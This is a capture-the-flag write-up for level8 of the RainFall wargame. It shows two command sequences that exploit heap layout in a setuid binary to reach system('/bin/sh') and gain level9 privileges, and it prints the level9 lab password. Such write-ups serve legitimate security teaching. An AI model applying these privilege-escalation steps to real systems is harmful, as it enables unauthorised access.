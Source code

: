 # Level8

We can find an executable waiting for an input :
```
level8@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 level9 users 6057 Mar  6  2016 level8
level8@RainFall:~$ ./level8
(nil), (nil)
bla
(nil), (nil)
test
(nil), (nil)

(nil), (nil)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
(nil), (nil)
^C
level8@RainFall:~$
```
After analyze it with gdb we only find a `main()` function, long enough..  
Please refer to file [asm_analysis.md](https://github.com/maxisimo/42-RainFall/blob/main/level8/Ressources/asm_analysis.md) in parallel of [source.c](https://github.com/maxisimo/42-RainFall/blob/main/level8/source.c) for full explanations.  
Ok, so the program run `system("/bin/sh")` after a serie of conditionnal jumps.  
It also reads stdin with `fgets()` and waits for commands :  
- `auth ` : calls malloc() and strcpy() and copies datas following `auth ` into the global variable auth.  
- `service` : calls strdup() and copies datas following `service` into the global variable service.  
- `reset` : calls free() and frees the global variable auth.  
- `login` : calls system() if auth[32] is different to 0, or fwrite() otherwise. 
Then displays addresses of the globals variables auth and service.  
In order to reach the system function we have to play with the commands above. Lets run the program to see the addresses of our globals variables after each commands :  
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service
0x804a008, 0x804a018
```
At this moment we can see that the address of service is exactly 16 bytes after the address of auth. This is beacause of malloc(), each pointer is placed right after the previous one with some padding between.  
We can already imagine two possible solutions :  
## First solution
Create two pointer with commands `auth ` and `service` long enough to reach 32 bytes including the 16 bytes of padding between them :  
- 16 padding bytes + 16 service bytes  
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service0123456789abcdef
0x804a008, 0x804a018
login
$ whoami
level9
$
```
## Second solution
Create one pointer with command `auth ` then another by taping 2 times `service` with 2 * 16 bytes padding => 32 bytes !  
```
level8@RainFall:~$ ./level8
(nil), (nil)
auth 
0x804a008, (nil)
service
0x804a008, 0x804a018        // 0x804a008 + 0x10 = 0x804a018
service
0x804a008, 0x804a028        // 0x804a008 + 0x20 = 0x804a028
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$
```
Then we just have to log as level9
```
level8@RainFall:~$ su level9
Password: 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level9/level9
level9@RainFall:~$
```
Level8 passed!
